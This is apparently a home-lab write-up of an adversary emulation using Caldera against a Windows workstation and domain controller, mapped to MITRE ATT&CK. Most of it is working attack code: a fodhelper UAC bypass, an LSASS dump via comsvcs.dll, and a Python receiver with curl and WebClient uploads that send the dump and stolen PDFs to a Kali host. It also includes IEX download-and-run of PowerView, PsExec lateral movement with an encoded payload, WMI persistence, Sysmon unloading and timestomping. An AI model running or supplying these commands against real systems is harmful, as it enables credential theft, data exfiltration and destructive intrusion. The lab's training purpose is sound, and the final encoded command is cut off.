---


---




1. Persistence - establishes immediate, basic persistence payd writing the payload to CurrentVersion\Run registry key
2. Discovery -  runs standard operating system discovery commands (e.g., `whoami`, `systeminfo`, `netstat`) to understand the local host environment and network configuration.
3. Privilege Escalation - exploits the `fodhelper.exe` auto-elevation mechanism to bypass User Account Control
4. Discovery - utilizes PowerView to discover and enumerate AD domain
5. Credential access - uses comsvcs.dll via rundll32.exe to dump lssass memory.
6. Data exfiltration - pushes the lsass.dmp file out of the network over the HTTPS C2 channel for offline password extract.
7. Lateral movement - uploads PsExec to execute a remote PowerShell command on DC01, establishing a new elevated privilege C2 agent.
8. Discovery - leverages basic command-line utilities to hunt for specific target data
9. Exfiltration (Archive & Exfil): compresses the sensitive PDF documents into a ZIP file, delete it on DC01, then exfiltrates the loot over the established HTTPS C2 channel.
10. Persistence (WMI Event Subscriptions):  deploys WMI `CommandLineEventConsumer` persistence that triggers based on system uptime on DC01
11. Defense-impairment Unload Sysmon filter to stop sysmon logging
12. Impact: Delete Volume Shadow Copies to prevent system recovery and destroy investigative artifacts.
13. Impact (Data Encrypted for Impact): executes a script to rename and "encrypt" the targeted PDFs, simulating a ransomware deployment.
14. Steath (Timestomping): modify $STANDARD_INFORMATION timestamps of winupdate.exe and all the pdf files in c-suites-doc
15. **Impact (Internal Defacement):** changes the system wallpaper on the Domain Controller to a ransom note.

The full attack chain is executed as below:


## 1. Initial access (**Phishing: Spearphishing Link - T1566.002)** {#3557b0eb61a480c9aa38c0442890170e}


On `ws01`, the user "jim" downloads a file from an unknown source on the internet by clicking into a phishing link.





## 2. Execution (User Execution: Malicious File - T1204.002) {#3557b0eb61a4806c93a6ddc347d2c095}


After the user executes the downloaded file, the agent successfully connects back to the Kali machine.





## 3. Command & Control (**Application Layer Protocol: Web Protocols - T1071.001)** {#3627b0eb61a4802abd75f26332419493}


The execution steps themselves facilitate Command & Control; the agent successfully beaconing back indicates that C2 has been established effectively.


Caldera agent is configured to use the `HTTP` contact and beacons back over standard web ports (port 80).


## 4. Persistence (**Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder - T1547.001)** {#3557b0eb61a480ddb518f28196b6837d}


To create the persistence ability in Caldera: 

1. In the Caldera menu, navigate to Campaigns → Abilities.
2. Click the + Create Ability button in the top right corner.
3. Fill in the attack details:
	- Name: `Persistence: Add to Registry Run Key`
	- Description: Writes the path of `winupdate.exe` into the CurrentUser's Run key to execute automatically upon login.
	- Tactic: `persistence`
	- Technique: `T1547.001` (Registry Run Keys / Startup Folder)
	- Command:

		```sql
		$payload = "$env:TEMP\winupdate.exe -server http://192.168.253.128:80 -group red";
		$regPath = "HKCU\Software\Microsoft\Windows\CurrentVersion\Run";
		New-ItemProperty -Path $regPath -Name "WindowsUpdateManager" -Value $payload -PropertyType String -Force;
		Write-Host "Persistence established in HKCU Run key successfully.";
		```

4. Scroll down to the Executors section, click + Add Executor, select Windows for the Platform, and psh (PowerShell) for the Executor.
5. Paste the following PowerShell code into the Command field:
6. Click save

	


:::tip

**Note:** The value name (`Name`) is set to `WindowsUpdateManager` to masquerade and match the file name `winupdate.exe`

:::


## 5. Discovery {#3627b0eb61a48042b471d28734171b60}


### System Information Discovery (T1082) {#3647b0eb61a480d29f17e409b41abd58}





```sql
$Report = "=========================================`n";
$Report += "   COMPOSITE DISCOVERY REPORT - LAB SOC  `n";
$Report += "=========================================`n`n";
$Report += "--- [1] CURRENT USER PRIVILEGES (whoami /all) ---`n";
$Report += (whoami.exe /all | Out-String) + "`n";
$Report += "--- [2] LOCAL ADMINISTRATORS (net localgroup) ---`n";
$Report += (net.exe localgroup Administrators | Out-String) + "`n";
$Report += "--- [3] ACTIVE CONNECTIONS (netstat) ---`n";
$Report += (netstat.exe -ano | Select-String "LISTENING|ESTABLISHED" | Out-String) + "`n";
$Report += "--- [4] ARP CACHE (arp -a) ---`n";
$Report += (arp.exe -a | Out-String) + "`n";
$Report += "--- [5] SYSTEM INFO (systeminfo) ---`n";
$Report += (systeminfo.exe | Out-String) + "`n";
$Report
```


### Download and execute domain discovery using PowerView (T1087.002) {#3627b0eb61a48004b000ee281ebae7db}

- This ability is run after PrivEsc phase when attacker obtain Administrator privilege on WS01
- Using PowerShell to download PowerView to enumerate and map Active Directory (AD) domain




```sql
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');
$Output = "=== DOMAIN INFO ===`n";
$Output += Get-NetDomain | Out-String;
$Output += "=== ADMIN USERS ===`n";
$Output += Get-NetGroupMember -GroupName "Domain Admins" | Out-String;
$Output += "=== TARGET COMPUTERS ===`n";
$Output += Get-NetComputer -Ping | Out-String;
$Output;
```


## 6. Privilege Escalation (**Abuse Elevation Control Mechanism: Bypass User Account Control -** T1548.002) {#3557b0eb61a48014aeb8d110a99b4bda}


In this SOC lab environment, the user `jim` is pre-configures a local Administrator.


Step 1: Creating the UAC Bypass Ability (T1548.002)

1. In Caldera, navigate to Abilities → + Add Ability.
2. Fill in the details:
	- Name: `Privesc: Bypass UAC via Fodhelper`
	- Tactic: `privilege-escalation`
	- Technique ID: `T1548.002`
3. Add an Executor as psh (PowerShell) for Windows, and paste the following code into the Command field:

```c++
New-Item "HKCU:\Software\Classes\ms-settings\Shell\open\command" -Force;
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\open\command" -Name "DelegateExecute" -Value "" -Force;

Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\open\command" -Name "(default)" -Value "$env:TEMP\winupdate.exe -server http://192.168.253.128:80 -group red" -Force;

Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden;

Start-Sleep -s 3;
Remove-Item "HKCU:\Software\Classes\ms-settings" -Recurse -Force;
```





## 7. Credential Access (OS Credential Dumping: LSASS memory - T1003.001) {#3557b0eb61a480a3b28ddb52f30e7936}

1. Create a new Ability.
	- **Name:** `CredAccess: Dump LSASS via comsvcs.dll`
	- **Tactic:** `credential-access`
	- **Technique ID:** `T1003.001`
2. Add a **psh** Executor and paste the following code:

```c++
$lsass = Get-Process lsass;
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $env:TEMP\lsass.dmp full;
Write-Host "LSASS dumped successfully to $env:TEMP\lsass.dmp";
```





## 8. Exfiltration (T1041 - **Exfiltration Over C2 Channel)** {#3557b0eb61a480248928c8a4fc86ec2c}


### Phase 1: Create a HTTPs server on Kali {#3627b0eb61a480e892b2f7ce2eab1fa5}


1. **Generate a self-signed SSL certificate:** Open the Terminal on Kali and run the following command to generate an encryption key: 


```sql
cd ~/Downloads/loot
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

1. **Create the Python file-receiving script (****`https_receiver.py`****):** Create a file named `https_receiver.py` in the `Downloads/loot` directory with the following content:

```powershell
import http.server
import ssl
import os

class UnifiedC2Handler(http.server.SimpleHTTPRequestHandler):
    
    def do_POST(self):
        content_length_header = self.headers.get('Content-Length')
        
        if not content_length_header:
            self.send_response(400)
            self.end_headers()
            self.wfile.write(b"Missing Content-Length header")
            return
            
        content_length = int(content_length_header)
        filename = self.headers.get('X-File-Name', 'unknown_loot.bin')
        filename = os.path.basename(filename)

        print(f"\n[*] EXFILTRATION: Incoming connection from {self.client_address[0]}")
        print(f"[*] Receiving: {filename} ({content_length / (1024 * 1024):.2f} MB)")

        bytes_received = 0
        with open(filename, "wb") as f:
            while bytes_received < content_length:
                chunk_size = min(8192, content_length - bytes_received)
                chunk = self.rfile.read(chunk_size)
                if not chunk:
                    print("[-] Error: Connection dropped prematurely.")
                    break
                f.write(chunk)
                bytes_received += len(chunk)

        # Send Success Response
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Exfiltration successful!')
        print(f"[+] Successfully saved {filename} to disk.\n")

# --- Server Setup ---
server_address = ('0.0.0.0', 443)
httpd = http.server.HTTPServer(server_address, UnifiedC2Handler)

context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
try:
    context.load_cert_chain(certfile='./server.pem')
    httpd.socket = context.wrap_socket(httpd.socket, server_side=True)
except FileNotFoundError:
    print("[!] ERROR: 'server.pem' not found in the current directory.")
    exit(1)

print("[-] Unified HTTPS C2 Server listening on port 443...")
print("[-] Hosting payloads (GET) and listening for loot (POST)...")

try:
    httpd.serve_forever()
except KeyboardInterrupt:
    print("\n[*] Shutting down server.")
    httpd.server_close()

```

1. Run the server:

	`sudo python3 https_receiver.py`


---


### **Phase 2: Exfiltrating the file from WS01 to Kali** {#3627b0eb61a480d4961fc238cf53ca94}


 In the Caldera interface, utilize the Elevated Agent (`qgrhza`) to execute a PowerShell command. We will use `Invoke-WebRequest` (or `curl.exe`) to upload the file.  


Create an exfiltration ability:





```powershell
curl.exe -s -H "X-File-Name: lsass.dmp" -X POST --data-binary "@$env:TEMP\lsass.dmp" https://192.168.253.128:443 -k;
Remove-Item -Path "$env:TEMP\lsass.dmp" -Force -ErrorAction Ignore;
```

- **Indicators of success:** The Kali screen will display the message `File uploaded successfully!`. At this point, the `lsass.dmp` file will be securely located in `Downloads/loot` directory.




### **Phase 3: Offline Cracking** {#3627b0eb61a480769f4febc4dd84c306}


A Windows dump file is essentially a convoluted mess of memory bytes. To extract passwords and Hashes from it within a Linux environment, our primary weapon is `pypykatz` (a Python-based counterpart to Mimikatz).  


```sql
pypykatz lsa minidump lsass.dmp
```


## 9. Lateral Movement (**Lateral Tool Transfer - T1570)** {#3627b0eb61a4809c80fad1d5081def2a}


In Caldera sidebar, navigate to payloads and upload the PsExec64.exe into the Local Payloads segment





Create the ability with the corresponding payload





```sql
.\PsExec64.exe \\DC01 -accepteula -u "soclab\Administrator" -p "Password1!" -s -d powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABzAGUAcgB2AGUAcgAgAD0AIAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADIANQAzAC4AMQAyADgAOgA4ADAAIgA7AA0ACgAkAHUAcgBsACAAPQAgACIAJABzAGUAcgB2AGUAcgAvAGYAaQBsAGUALwBkAG8AdwBuAGwAbwBhAGQAIgA7AA0ACgAkAGUAeABlAFAAYQB0AGgAIAA9ACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAHcAaQBuAHUAcABkAGEAdABlAC4AZQB4AGUAIgA7AA0ACgANAAoAJAB3AGMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7AA0ACgAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBhAGQAZAAoACIAcABsAGEAdABmAG8AcgBtACIALAAiAHcAaQBuAGQAbwB3AHMAIgApADsADQAKACQAdwBjAC4ASABlAGEAZABlAHIAcwAuAGEAZABkACgAIgBmAGkAbABlACIALAAiAHMAYQBuAGQAYwBhAHQALgBnAG8AIgApADsADQAKAA0ACgAkAGQAYQB0AGEAIAA9ACAAJAB3AGMALgBEAG8AdwBuAGwAbwBhAGQARABhAHQAYQAoACQAdQByAGwAKQA7AA0ACgANAAoAZwBlAHQALQBwAHIAbwBjAGUAcwBzACAAfAAgAD8AIAB7ACQAXwAuAG0AbwBkAHUAbABlAHMALgBmAGkAbABlAG4AYQBtAGUAIAAtAGwAaQBrAGUAIAAkAGUAeABlAFAAYQB0AGgAfQAgAHwAIABzAHQAbwBwAC0AcAByAG8AYwBlAHMAcwAgAC0AZgA7AA0ACgByAG0AIAAtAGYAbwByAGMAZQAgACQAZQB4AGUAUABhAHQAaAAgAC0AZQBhACAAaQBnAG4AbwByAGUAOwANAAoADQAKAFsAaQBvAC4AZgBpAGwAZQBdADoAOgBXAHIAaQB0AGUAQQBsAGwAQgB5AHQAZQBzACgAJABlAHgAZQBQAGEAdABoACwAIAAkAGQAYQB0AGEAKQAgAHwAIABPAHUAdAAtAE4AdQBsAGwAOwANAAoAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAJABlAHgAZQBQAGEAdABoACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACIALQBzAGUAcgB2AGUAcgAgACQAcwBlAHIAdgBlAHIAIAAtAGcAcgBvAHUAcAAgAHIAZQBkACIAIAAtAFcAaQBuAGQAbwB3AFMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuADsA
```

- `d` (Detach): This is crucial for C2 agents. It tells PsExec to start the process on DC01, and then immediately disconnect. Without this, PsExec would hang open indefinitely waiting for the Sandcat agent to close, freezing current session on WS01.

A new agent with evevated privilege has been created on DC01





## 10. Discovery (**File and Directory Discovery - T1083**) on DC01 {#3637b0eb61a4807aa3ecdc029c173c7c}


Create a basic file and directory discovery approach:





```sql
whoami && dir /c && dir /c C:\
dir /c C:\c-suite-docs
```





## 11. Collection (**Archive Collected Data: Archive via Utility - T1560.001)** and exfiltration (**Exfiltration Over C2 Channel - T1041**) {#3657b0eb61a4805497acc845f254deac}


In this adversary emulation, the domain controller also acts as file server. I prepared some of the “important” documents to collect and exfiltrate





Same as previous steps: create a new exfiltration ability:


```sql
$ProgressPreference = 'SilentlyContinue';
Compress-Archive -Path C:\c-suite-docs\*.pdf -DestinationPath $env:TEMP\loot.zip -Force;
[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
[Net.ServicePointManager]::Expect100Continue = $false;
$wc = New-Object System.Net.WebClient;
$wc.Headers.Add('X-File-Name', 'c_suite_loot.zip');
$fileBytes = [System.IO.File]::ReadAllBytes("$env:TEMP\loot.zip");
$wc.UploadData('https://192.168.253.128:443', 'POST', $fileBytes);
rm -Force $env:TEMP\loot.zip -ea ignore;
```





The encoded version


```sql
powershell.exe -nop -w hidden -enc JABQAHIAbwBnAHIAZQBzAHMAUAByAGUAZgBlAHIAZQBuAGMAZQAgAD0AIAAnAFMAaQBsAGUAbgB0AGwAeQBDAG8AbgB0AGkAbgB1AGUAJwA7AA0ACgBDAG8AbQBwAHIAZQBzAHMALQBBAHIAYwBoAGkAdgBlACAALQBQAGEAdABoACAAQwA6AFwAYwAtAHMAdQBpAHQAZQAtAGQAbwBjAHMAXAAqAC4AcABkAGYAIAAtAEQAZQBzAHQAaQBuAGEAdABpAG8AbgBQAGEAdABoACAAJABlAG4AdgA6AFQARQBNAFAAXABsAG8AbwB0AC4AegBpAHAAIAAtAEYAbwByAGMAZQA7AA0ACgBbAE4AZQB0AC4AUwBlAHIAdgBpAGMAZQBQAG8AaQBuAHQATQBhAG4AYQBnAGUAcgBdADoAOgBTAGUAcgB2AGUAcgBDAGUAcgB0AGkAZgBpAGMAYQB0AGUAVgBhAGwAaQBkAGEAdABpAG8AbgBDAGEAbABsAGIAYQBjAGsAIAA9ACAAewAkAHQAcgB1AGUAfQA7AA0ACgBbAE4AZQB0AC4AUwBlAHIAdgBpAGMAZQBQAG8AaQBuAHQATQBhAG4AYQBnAGUAcgBdADoAOgBFAHgAcABlAGMAdAAxADAAMABDAG8AbgB0AGkAbgB1AGUAIAA9ACAAJABmAGEAbABzAGUAOwANAAoAJAB3AGMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7AA0ACgAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBBAGQAZAAoACcAWAAtAEYAaQBsAGUALQBOAGEAbQBlACcALAAgACcAYwBfAHMAdQBpAHQAZQBfAGwAbwBvAHQALgB6AGkAcAAnACkAOwANAAoAJABmAGkAbABlAEIAeQB0AGUAcwAgAD0AIABbAFMAeQBzAHQAZQBtAC4ASQBPAC4ARgBpAGwAZQBdADoAOgBSAGUAYQBkAEEAbABsAEIAeQB0AGUAcwAoACIAJABlAG4AdgA6AFQARQBNAFAAXABsAG8AbwB0AC4AegBpAHAAIgApADsADQAKACQAdwBjAC4AVQBwAGwAbwBhAGQARABhAHQAYQAoACcAaAB0AHQAcABzADoALwAvADEAOQAyAC4AMQA2ADgALgAyADUAMwAuADEAMgA4ADoANAA0ADMAJwAsACAAJwBQAE8AUwBUACcALAAgACQAZgBpAGwAZQBCAHkAdABlAHMAKQA7AA0ACgByAG0AIAAtAEYAbwByAGMAZQAgACQAZQBuAHYAOgBUAEUATQBQAFwAbABvAG8AdAAuAHoAaQBwACAALQBlAGEAIABpAGcAbgBvAHIAZQA7AA==
```


## 12. Persistence (Event Triggered Execution: Windows Management Instrumentation Event Subscription -  T1546.003) on DC01 {#3647b0eb61a4809997b9f72ddd7c0672}


On DC01, we use a different approach, by employing Windows Management Instrumentation (WMI), we can obtain persistence more stealthily, and this doesn’t leave obvious artifacts in standard startup folders.


Similar to previous step, navigate to Campaigns → Abilities to create a new ability





```sql
$FilterArgs = @{name='updater'; EventNameSpace='root\CimV2'; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs;
$ConsumerArgs = @{name='updater'; CommandLineTemplate="C:\Windows\Temp\winupdate.exe"};
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs;
$FilterToConsumerArgs = @{ Filter = [Ref] $Filter; Consumer = [Ref] $Consumer };
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```


```sql
powershell.exe -nop -w hidden -enc JABGAGkAbAB0AGUAcgBBAHIAZwBzACAAPQAgAEAAewBuAGEAbQBlAD0AJwB1AHAAZABhAHQAZQByACcAOwAgAEUAdgBlAG4AdABOAGEAbQBlAFMAcABhAGMAZQA9ACcAcgBvAG8AdABcAEMAaQBtAFYAMgAnADsAIABRAHUAZQByAHkATABhAG4AZwB1AGEAZwBlAD0AIgBXAFEATAAiADsAIABRAHUAZQByAHkAPQAiAFMARQBMAEUAQwBUACAAKgAgAEYAUgBPAE0AIABfAF8ASQBuAHMAdABhAG4AYwBlAE0AbwBkAGkAZgBpAGMAYQB0AGkAbwBuAEUAdgBlAG4AdAAgAFcASQBUAEgASQBOACAANgAwACAAVwBIAEUAUgBFACAAVABhAHIAZwBlAHQASQBuAHMAdABhAG4AYwBlACAASQBTAEEAIAAnAFcAaQBuADMAMgBfAFAAZQByAGYARgBvAHIAbQBhAHQAdABlAGQARABhAHQAYQBfAFAAZQByAGYATwBTAF8AUwB5AHMAdABlAG0AJwAgAEEATgBEACAAVABhAHIAZwBlAHQASQBuAHMAdABhAG4AYwBlAC4AUwB5AHMAdABlAG0AVQBwAFQAaQBtAGUAIAA+AD0AIAAyADQAMAAgAEEATgBEACAAVABhAHIAZwBlAHQASQBuAHMAdABhAG4AYwBlAC4AUwB5AHMAdABlAG0AVQBwAFQAaQBtAGUAIAA8ACAAMwAyADUAIgB9ADsADQAKACQARgBpAGwAdABlAHIAPQBOAGUAdwAtAEMAaQBtAEkAbgBzAHQAYQBuAGMAZQAgAC0ATgBhAG0AZQBzAHAAYQBjAGUAIAByAG8AbwB0AC8AcwB1AGIAcwBjAHIAaQBwAHQAaQBvAG4AIAAtAEMAbABhAHMAcwBOAGEAbQBlACAAXwBfAEUAdgBlAG4AdABGAGkAbAB0AGUAcgAgAC0AUAByAG8AcABlAHIAdAB5ACAAJABGAGkAbAB0AGUAcgBBAHIAZwBzADsADQAKACQAQwBvAG4AcwB1AG0AZQByAEEAcgBnAHMAIAA9ACAAQAB7AG4AYQBtAGUAPQAnAHUAcABkAGEAdABlAHIAJwA7ACAAQwBvAG0AbQBhAG4AZABMAGkAbgBlAFQAZQBtAHAAbABhAHQAZQA9ACIAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAZQBtAHAAXAB3AGkAbgB1AHAAZABhAHQAZQAuAGUAeABlACIAfQA7AA0ACgAkAEMAbwBuAHMAdQBtAGUAcgA9AE4AZQB3AC0AQwBpAG0ASQBuAHMAdABhAG4AYwBlACAALQBOAGEAbQBlAHMAcABhAGMAZQAgAHIAbwBvAHQALwBzAHUAYgBzAGMAcgBpAHAAdABpAG8AbgAgAC0AQwBsAGEAcwBzAE4AYQBtAGUAIABDAG8AbQBtAGEAbgBkAEwAaQBuAGUARQB2AGUAbgB0AEMAbwBuAHMAdQBtAGUAcgAgAC0AUAByAG8AcABlAHIAdAB5ACAAJABDAG8AbgBzAHUAbQBlAHIAQQByAGcAcwA7AA0ACgAkAEYAaQBsAHQAZQByAFQAbwBDAG8AbgBzAHUAbQBlAHIAQQByAGcAcwAgAD0AIABAAHsAIABGAGkAbAB0AGUAcgAgAD0AIABbAFIAZQBmAF0AIAAkAEYAaQBsAHQAZQByADsAIABDAG8AbgBzAHUAbQBlAHIAIAA9ACAAWwBSAGUAZgBdACAAJABDAG8AbgBzAHUAbQBlAHIAIAB9ADsADQAKACQARgBpAGwAdABlAHIAVABvAEMAbwBuAHMAdQBtAGUAcgBCAGkAbgBkAGkAbgBnACAAPQAgAE4AZQB3AC0AQwBpAG0ASQBuAHMAdABhAG4AYwBlACAALQBOAGEAbQBlAHMAcABhAGMAZQAgAHIAbwBvAHQALwBzAHUAYgBzAGMAcgBpAHAAdABpAG8AbgAgAC0AQwBsAGEAcwBzAE4AYQBtAGUAIABfAF8ARgBpAGwAdABlAHIAVABvAEMAbwBuAHMAdQBtAGUAcgBCAGkAbgBkAGkAbgBnACAALQBQAHIAbwBwAGUAcgB0AHkAIAAkAEYAaQBsAHQAZQByAFQAbwBDAG8AbgBzAHUAbQBlAHIAQQByAGcAcwA=
```


Because WMI subcription embed themselves deep into the OS, it is critical to remove them after the attack operation.


```sql
# 1. Break the Link: Remove the Binding First
Get-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding | 
    Where-Object { $_.Filter -match "updater" } | 
    Remove-CimInstance -ErrorAction SilentlyContinue

# 2. Remove the Action: Delete the Consumer
Get-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Filter "Name = 'updater'" | 
    Remove-CimInstance -ErrorAction SilentlyContinue

# 3. Remove the Trigger: Delete the Filter
Get-CimInstance -Namespace root/subscription -ClassName __EventFilter -Filter "Name = 'updater'" | 
    Remove-CimInstance -ErrorAction SilentlyContinue

Write-Host "WMI Persistence completely removed." -ForegroundColor Green
```


```sql
Get-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding | 
    Where-Object { $_.Filter -match "updater" } | 
    Remove-CimInstance -ErrorAction SilentlyContinue
Get-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Filter "Name = 'updater'" | 
    Remove-CimInstance -ErrorAction SilentlyContinue
Get-CimInstance -Namespace root/subscription -ClassName __EventFilter -Filter "Name = 'updater'" | 
    Remove-CimInstance -ErrorAction SilentlyContinue
Write-Host "WMI Persistence completely removed." -ForegroundColor Green
```


To check if the system is clean


```sql
Get-CimInstance -Namespace root/subscription -ClassName __EventFilter -Filter "Name = 'updater'"
Get-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Filter "Name = 'updater'"
```


```sql
powershell.exe -nop -w hidden -enc RwBlAHQALQBDAGkAbQBJAG4AcwB0AGEAbgBjAGUAIAAtAE4AYQBtAGUAcwBwAGEAYwBlACAAcgBvAG8AdAAvAHMAdQBiAHMAYwByAGkAcAB0AGkAbwBuACAALQBDAGwAYQBzAHMATgBhAG0AZQAgAF8AXwBFAHYAZQBuAHQARgBpAGwAdABlAHIAIAAtAEYAaQBsAHQAZQByACAAIgBOAGEAbQBlACAAPQAgACcAdQBwAGQAYQB0AGUAcgAnACIADQAKAEcAZQB0AC0AQwBpAG0ASQBuAHMAdABhAG4AYwBlACAALQBOAGEAbQBlAHMAcABhAGMAZQAgAHIAbwBvAHQALwBzAHUAYgBzAGMAcgBpAHAAdABpAG8AbgAgAC0AQwBsAGEAcwBzAE4AYQBtAGUAIABDAG8AbQBtAGEAbgBkAEwAaQBuAGUARQB2AGUAbgB0AEMAbwBuAHMAdQBtAGUAcgAgAC0ARgBpAGwAdABlAHIAIAAiAE4AYQBtAGUAIAA9ACAAJwB1AHAAZABhAHQAZQByACcAIgA=
```


If these commands return nothing, the WMI database is clean.


## 13. Defense Impairment {#3657b0eb61a480db8e66f146b9be755b}


### **Disable or Modify Tools (T1685):** Unload Sysmon filter to stop sysmon logging {#3657b0eb61a480589a32c4e49a6fac71}


```sql
fltmc.exe unload SysmonDrv
```


**fltmc.exe** (**Filter Manager Control Program**) is a legitimate, Microsoft-signed Windows command-line utility used to manage and query File System Filter Drivers (minifilters). It is located in `C:\Windows\System32\fltMC.exe` and requires administrator privileges to execute.


This command is used to unload Sysmon minifilter driver, consequently stop it from logging.





## 14. Impact {#3657b0eb61a4808b8d1dd796fe5dddb8}


### Inhibit System Recovery (T1490): Delete Volume Shadow Copies to prevent system recovery and destroy investigative artifacts {#3657b0eb61a4800da19fdde5f5b8379f}


The command deletes all Volume Shadow Copies (backups and restore points) stored on local drives without prompting for confirmation.


The ability’s detail is shown below:





## 15. Impact {#3557b0eb61a480e4a44acaca4a837286}


### **Data Encrypted for Impact (T1486)** {#3637b0eb61a480d690dbef0b53403992}


For simplicity, i rename all the items to mimic real-world ransomware in action.








## 16. Stealth(Indicator Removal on Host: Timestomp - T1070.006) {#3657b0eb61a480b096e6e48d6f87feb3}


In this step, because Sysmon logging was turned off, PowerShell is used to modify $STANDARD_INFORMATION timestamps of winupdate.exe and all the pdf files in c-suites-doc


```sql
$payloadPath = "$env:TEMP\winupdate.exe";
if (Test-Path $payloadPath) {
    $(Get-Item $payloadPath).CreationTime = '01/01/2010 12:00:00';
    $(Get-Item $payloadPath).LastWriteTime = '01/01/2010 12:00:00';
    $(Get-Item $payloadPath).LastAccessTime = '01/01/2010 12:00:00';
    Write-Host "[+] Timestomped payload: $payloadPath";
} else {
    Write-Host "[-] Payload not found at $payloadPath. Skipping...";
}
$ransomFiles = Get-ChildItem -Path "C:\c-suite-docs\*.ransom" -ErrorAction SilentlyContinue;
if ($ransomFiles) {
    $ransomFiles | ForEach-Object {
        $_.CreationTime = '01/01/2010 12:00:00';
        $_.LastWriteTime = '01/01/2010 12:00:00';
        $_.LastAccessTime = '01/01/2010 12:00:00';
    }
    Write-Host "[+] Timestomping complete for all .ransom files.";
} else {
    Write-Host "[-] No .ransom files found to timestomp.";
}
```


```sql
powershell.exe -nop -w hidden -enc JABwAGEAeQBsAG8AYQBkAFAAYQB0AGgAIAA9ACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAHcAaQBuAHUAcABkAGEAdABlAC4AZQB4AGUAIgA7AA0ACgAkAGYAYQBrAGUARABhAHQAZQAgAD0AIABbAGQAYQB0AGUAdABpAG0AZQBdACIAMAAxAC8AMAAxAC8AMgAwADEAMAAgADEAMgA6ADAAMAA6ADAAMAAiADsADQAKAA0ACgBpAGYAIAAoAFQAZQBzAHQALQBQAGEAdABoACAAJABwAGEAeQBsAG8AYQBkAFAAYQB0AGgAKQAgAHsADQAKACAAIAAgACAAdAByAHkAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAWwBTAHkAcwB0AGUAbQAuAEkATwAuAEYAaQBsAGUAXQA6ADoAUwBlAHQAQwByAGUAYQB0AGkAbwBuAFQAaQBtAGUAKAAkAHAAYQB5AGwAbwBhAGQAUABhAHQAaAAsACAAJABmAGEAawBlAEQAYQB0AGUAKQA7AA0ACgAgACAAIAAgACAAIAAgACAAWwBTAHkAcwB0AGUAbQAuAEkATwAuAEYAaQBsAGUAXQA6ADoAUwBlAHQATABhAHMAdABXAHIAaQB0AGUAVABpAG0AZQAoACQAcABhAHkAbABvAGEAZABQAGEAdABoACwAIAAkAGYAYQBrAGUARABhAHQAZQApADsADQAKACAAIAAgACAAIAAgACAAIABbAFMAeQBzAHQAZQBtAC4ASQBPAC4ARgBpAGwAZQBdADoAOgBTAGUAdABMAGEAcwB0AEEAYwBjAGUAcwBzAFQAaQBtAGUAKAAkAHAAYQB5AGwAbwBhAGQAUABhAHQAaAAsACAAJABmAGEAawBlAEQAYQB0AGUAKQA7AA0ACgAgACAAIAAgACAAIAAgACAAVwByAGkAdABlAC0ASABvAHMAdAAgACIAWwArAF0AIABUAGkAbQBlAHMAdABvAG0AcABlAGQAIAByAHUAbgBuAGkAbgBnACAAcABhAHkAbABvAGEAZAA6ACAAJABwAGEAeQBsAG8AYQBkAFAAYQB0AGgAIgA7AA0ACgAgACAAIAAgAH0AIABjAGEAdABjAGgAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAVwByAGkAdABlAC0ASABvAHMAdAAgACIAWwAtAF0AIABGAGEAaQBsAGUAZAAgAHQAbwAgAHQAaQBtAGUAcwB0AG8AbQBwACAAcABhAHkAbABvAGEAZAAuACAAVwBpAG4AZABvAHcAcwAgAHMAdAByAGkAYwB0ACAAbABvAGMAawAgAGEAcABwAGwAaQBlAGQALgAiADsADQAKACAAIAAgACAAfQANAAoAfQAgAGUAbABzAGUAIAB7AA0ACgAgACAAIAAgAFcAcgBpAHQAZQAtAEgAbwBzAHQAIAAiAFsALQBdACAAUABhAHkAbABvAGEAZAAgAG4AbwB0ACAAZgBvAHUAbgBkACAAYQB0ACAAJABwAGEAeQBsAG8AYQBkAFAAYQB0AGgALgAgAFMAawBpAHAAcABpAG4AZwAuAC4ALgAiADsADQAKAH0ADQAKAA0ACgAkAHIAYQBuAHMAbwBtAEYAaQBsAGUAcwAgAD0AIABHAGUAdAAtAEMAaABpAGwAZABJAHQAZQBtACAALQBQAGEAdABoACAAIgBDADoAXABjAC0AcwB1AGkAdABlAC0AZ